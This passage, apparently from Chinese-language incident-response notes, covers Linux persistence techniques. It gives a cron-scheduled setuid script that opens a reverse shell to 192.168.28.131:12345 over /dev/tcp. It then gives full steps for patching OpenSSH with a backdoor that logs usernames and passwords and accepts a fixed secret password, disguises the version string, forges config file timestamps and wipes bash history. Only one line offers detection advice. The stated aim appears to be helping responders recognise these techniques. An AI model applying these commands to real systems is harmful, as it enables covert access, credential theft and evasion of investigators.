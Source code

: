 a、创建shell脚本，例如在/etc/evil.sh

```text
#!/bin/bash
bash -i >& /dev/tcp/192.168.28.131/12345  0>&1
```

`chmod +sx /etc/evil.sh`

b、crontab -e 设置定时任务

```text
#每一分钟执行一次
*/1 * * * * root /etc/evil.sh
```

重启crond服务，`service crond restart`，然后就可以用nc接收shell。

![](https://github.com/AppleTu/Emergency-Response-Notes/tree/48fb22e36edcdb442629c501e4581ae846370adf/第三章：权限维持篇/image/privilege-5-6.png)

排查技巧：

```text
# 查看可疑的定时任务列表
crontab -e
```

**8、openssh后门**

利用openssh后门，设置SSH后门密码及root密码记录位置，隐蔽性较强，不易被发现。

```text
a、备份SSH配置文件
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old

b、解压并安装补丁
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff  /openssh-5.9p1
cd openssh-5.9p1
patch < sshbd5.9p1.diff

c、记录用户名和密码的文件位置及其密码
vi  includes.h
    #define ILOG "/tmp/1.txt"             //记录登录本机的用户名和密码
    #define OLOG "/tmp/2.txt"             //记录本机登录远程的用户名和密码
    #define SECRETPW "123456789"          //后门的密码

d、修改版本信息
vi version.h
    #define SSH_VERSION "填入之前记下来的版本号,伪装原版本"
    #define SSH_PORTABLE "小版本号"

e、安装并编译
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make clean
make && make install
service sshd restart

f、对比原来的配置文件，使配置文件一致，然后修改文件日期。

touch -r  /etc/ssh/ssh_config.old /etc/ssh/ssh_config
touch -r  /etc/ssh/sshd_config.old /etc/ssh/sshd_config

g、清除操作记录
export HISTFILE=/dev/null
export HISTSIZE=0
echo >/root/.bash_history //清空操作日志
```
